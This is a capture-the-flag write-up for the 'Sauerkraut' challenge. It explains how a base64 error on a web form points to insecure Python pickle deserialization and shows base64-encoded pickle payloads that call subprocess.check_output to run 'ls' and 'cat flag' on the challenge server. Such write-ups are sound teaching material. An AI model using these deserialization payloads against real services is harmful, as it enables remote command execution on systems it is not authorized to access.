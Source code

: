 # Sauerkraut

What goes best on a hotdog?

## Objective

There is a form page, in which, after a number of try with some string, we receive in output this string

*Invalid base64-encoded string: number of data characters (13) cannot be 1 more than a multiple of 4*

## Resources

***Link***: https://ctf-101.snyk.io/challenges#Sauerkraut

***Server**: http://35.211.215.131:8000/

## Hint

This error could make us think about a vulnerability regarding python and a string base 64. If we google: *python base64 pickles vuln*

Google will give us as first result this url: https://davidhamann.de/2020/04/05/exploiting-python-pickle/

This article has a similar case that could be helpful for us

## Solution

Reading this article: https://davidhamann.de/2020/04/05/exploiting-python-pickle/ could help us to understand how to pass the correct string to the form and run bash command on the target amachine.

I made a small script script.py that could trasform all the command serializing them.

This are the steps to take

```
python3.9 script.py 'ls'
string not base 64b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\nsubprocess\x94\x8c\x0ccheck_output\x94\x93\x94]\x94\x8c\x02ls\x94a\x85\x94R\x94.'
string base64 b'gASVKwAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlIwCbHOUYYWUUpQu'
```

```
python3.9 script.py 'cat flag'
string not base 64b'\x80\x04\x954\x00\x00\x00\x00\x00\x00\x00\x8c\nsubprocess\x94\x8c\x0ccheck_output\x94\x93\x94]\x94(\x8c\x03cat\x94\x8c\x04flag\x94e\x85\x94R\x94.'
string base64 b'gASVNAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMA2NhdJSMBGZsYWeUZYWUUpQu'
```


